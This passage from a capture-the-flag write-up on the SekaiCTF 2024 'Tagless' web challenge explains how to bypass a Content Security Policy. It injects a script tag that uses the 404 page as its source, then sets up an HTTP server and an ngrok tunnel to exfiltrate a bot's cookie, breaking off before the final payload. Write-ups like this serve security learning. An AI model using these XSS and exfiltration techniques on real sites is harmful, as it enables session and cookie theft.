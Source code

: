 Well yes we can! In the 404 error page, **the injected `<script>` tag can include the 404 error page**, such as the following:

```html
<script src="/alert(document.domain)"></script>
```

That way, our injected `<script>` tag can execute arbitrary JavaScript code in the `src` attribute! Let's try it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2024/images/Pasted%20image%2020240826152427.png)

Hmm... We got a JavaScript syntax error. Well, this is expected because the 404 error page has some invalid JavaScript syntax:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2024/images/Pasted%20image%2020240826152548.png)

To solve this, we can use the multi-line comment syntax `/*` and `*/`, as well as the single line comment syntax `//`:

```html
<script src="/**/alert(document.domain)//"></script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2024/images/Pasted%20image%2020240826152745.png)

Nice! It worked! We successfully bypassed the CSP!

## Exploitation

Armed with the above information, we can exfiltrate the bot's `flag` cookie to our attacker server.

To do so, we can:

- Set up a simple HTTP server via Python's `http.server` module

```shell
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2024/Web/Tagless)-[2024.08.26|15:30:05(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

- Set up port forwarding via Ngrok to serve our internal HTTP server to external network

```shell
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2024/Web/Tagless)-[2024.08.26|15:30:04(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://50e6-{Redacted}.ngrok-free.app -> http://localhost:80            
[...]
```

- Send the following payload to the bot via the POST route `/report`

```
```